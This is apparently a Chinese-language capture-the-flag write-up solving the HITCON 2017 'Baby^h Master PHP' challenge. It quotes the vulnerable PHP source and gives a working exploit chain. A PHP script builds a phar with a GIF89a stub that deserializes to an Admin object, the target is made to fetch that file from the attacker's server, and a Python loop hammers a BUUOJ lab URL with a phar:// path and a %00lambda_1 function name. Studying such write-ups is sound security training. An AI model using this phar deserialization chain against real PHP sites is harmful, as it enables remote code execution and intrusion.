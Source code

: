 # \[HITCON 2017]Baby^h Master PHP

## \[HITCON 2017]Baby^h Master PHP

## 考点

* 代码审计
* create\_function生成的匿名函数特性
* phar反序列化
*

## wp

### 第一段：初始条件

看一下初始的条件

```php
$FLAG = create_function("", 'die(`/read_flag`);'); 
$SECRET = `/read_secret`;
$SANDBOX = "/var/www/data/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);
@mkdir($SANDBOX);
@chdir($SANDBOX);
```

首先回顾一下`create_function`是啥

`create_function('$a','echo $a;')`等价于创建一个匿名函数，它的名字是`\x00lambda_%d`

```php
eval(
function __lambda_func($a){
	echo $a; 
}
)
```

第一行等同于

```php
eval(
function __lambda_func(){
	die(`/read_flag`);
}
)
```

这个初始过程是：获取FLAG，获取密钥，生成沙盒

防止在公共靶机下出现啥bug

### 第二段：输入

看一下输入在哪儿

```php
$mode = $_GET["m"];
if ($mode == "upload") {
    upload(check_session());
} else if ($mode == "show") {
    show(check_session());
} else {
    echo "IP:".$_SERVER["REMOTE_ADDR"];
    echo "Sandbox:"."/var/www/data/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);
    highlight_file(__FILE__);
}
```

有三种模式，`upload`、`show`以及其它

### 第三段：upload模式

无论哪个模式都会执行`check_session`函数，那就看一下

```php
function check_session() {
    global $SECRET;
    $data = $_COOKIE["session-data"];
    list($data, $hmac) = explode("-----", $data, 2);
    if (!isset($data, $hmac) || !is_string($data) || !is_string($hmac)) {
        die("Bye");
    }

    if (!hash_equals(hash_hmac("sha1", $data, $SECRET), $hmac)) {
        die("Bye Bye");
    }

    $data = unserialize($data);
    if (!isset($data->avatar)) {
        die("Bye Bye Bye");
    }

    return $data->avatar;
}
```

先获取`cookie`中的`session-data`，我这里是`O%3A4%3A%22User%22%3A1%3A%7Bs%3A6%3A%22avatar%22%3Bs%3A46%3A%22%2Fvar%2Fwww%2Fdata%2F0f3cd5989359bdd5a04508bf19418e31%22%3B%7D-----73dcb35650323907c141d8988a5d0d962396fbbe`

那它怎么来的呢，可以看到，`data`是`User`类序列化的内容，而`hmac`是`hash_hmac("sha1", $data, $SECRET)`的结果

```php
if (!isset($_COOKIE["session-data"])) {
    $data = serialize(new User($SANDBOX));
    $hmac = hash_hmac("sha1", $data, $SECRET);
    setcookie("session-data", sprintf("%s-----%s", $data, $hmac));
}
class User {
    public $avatar;
    function __construct($path) {
        $this->avatar = $path;
    }
}
```

然后将cookie进行分割，还原出`data`和`hmac`。并对`data`和`hmac`再做一次校验，验证`hmac`是否由`hash_hmac("sha1", $data, $SECRET)`生成。是的话对`data`进行反序列化，然后返回它的`avatar`属性。

`upload`模式下，还会再去执行`upload()`函数，这里的`path`参数就是自己的沙盒地址

```php
function upload($path) {
    $data = file_get_contents($_GET["url"] . "/avatar.gif");
    if (substr($data, 0, 6) !== "GIF89a") {
        die("Fuck off");
    }

    file_put_contents($path . "/avatar.gif", $data);
    die("Upload OK");
}
```

然后从外部获取`url`下的avatar.gif，覆盖掉沙盒的那个avatar.gif

### 第四段：show模式

`show`模式下，在`check_session()`获取沙盒地址后，判断这个地址下的avatar.gif存不存在，存在的话就返回这个avatar.gif

```php
function show($path) {
    if (!file_exists($path . "/avatar.gif")) {
        $path = "/var/www/html";
    }

    header("Content-Type: image/gif");
    die(file_get_contents($path . "/avatar.gif"));
}
```

### 第五段：查漏

整体看完了，发现`Admin`类好像没有用到，这里大概就是最终要利用的地方

```php
class Admin extends User {
    function __destruct() {
        $random = bin2hex(openssl_random_pseudo_bytes(32));
        eval("function my_function_$random() {"
            . "  global \$FLAG; \$FLAG();"
            . "}");
        $_GET["lucky"]();
    }
}
```

`__destruct`里面定义一个随机函数，执行这个随机函数可以获取flag，但是直接执行初始的匿名函数就可以了

### 思路

很明显的phar反序列化，生成`Admin`类的phar文件，通过`upload`函数触发phar反序列化，然后执行匿名函数

```php
<?php
class Admin{
	public $avatar='xyz';
}
$a = new Admin();

$phar = new Phar('123.phar',0,'123.phar');
$phar->startBuffering();
$phar->setStub('GIF89a<?php __HALT_COMPILER(); ?>');


$phar->setMetadata($a);
$phar->addFromString('text.txt','test');
$phar->stopBuffering();
```

最后一段引用官方wp原文

> 但是我们并不能知道当前的匿名函数到底有多少个, 因为每访问一次题目就会生成一个匿名函数; 最后就引出了最后一个考点, Apache-prefork模型(默认模型)在接受请求后会如何处理,首先Apache会默认生成5个child server去等待用户连接, 默认最高可生成256个child server, 这时候如果用户大量请求, Apache就会在处理完MaxRequestsPerChild个tcp连接后kill掉这个进程,开启一个新进程处理请求(这里猜测Orange大大应该修改了默认的0,因为0为永不kill掉子进程 这样就无法fork出新进程了) 在这个新进程里面匿名函数就会是从1开始的了

1. 生成phar放在自己的服务器上
2. 上传文件`?c=upload&url=http://ip`
3. 写个脚本一直请求`?m=upload&url=phar:///var/www/data/***&lucky=%00lambda_1`

```python
import requests

url = 'http://12c6a169-a23b-4d57-bb1c-b16d6513f0ba.node3.buuoj.cn/?m=upload&url=phar:///var/www/data/0f3cd5989359bdd5a04508bf19418e31&lucky=%00lambda_1'

header = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0',
    'Cookie': 'UM_distinctid=1773491acc0ff-0d74662bd23926-12666d4a-144000-1773491acc126b; session-data=O%3A4%3A%22User%22%3A1%3A%7Bs%3A6%3A%22avatar%22%3Bs%3A46%3A%22%2Fvar%2Fwww%2Fdata%2F0f3cd5989359bdd5a04508bf19418e31%22%3B%7D-----73dcb35650323907c141d8988a5d0d962396fbbe'
}
while True:
    r =requests.get(url,headers=header)
    if 'flag' in r.text:
        print(r.text)
```

![](../../.gitbook/assets/image-20210125182549375.png)
